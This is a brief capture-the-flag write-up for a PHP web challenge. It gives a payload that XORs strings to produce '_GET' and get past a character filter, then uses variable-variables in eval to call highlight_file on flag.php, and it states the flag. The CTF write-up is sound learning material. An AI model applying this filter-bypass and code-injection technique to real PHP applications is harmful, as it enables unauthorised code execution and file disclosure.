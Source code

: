 **Challenge:** http://69.90.132.196:5003/?view-source

Reference: https://ctf-wiki.github.io/ctf-wiki/web/php/php/

Payload: `$_="``{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php`

Explaning:
  - $_="`{{{"^"?<>/"; | Result of xor operation: $_ = "_GET"
  - ${$_}[_](${$_}[__]); | $_GET[_]($_GET[__])
  - Eval function will be: eval(highlight_file('flag.php'))

[Get the flag](http://69.90.132.196:5003/?view-source)

**Flag**: ASIS{w4rm_up_y0ur_br4in}
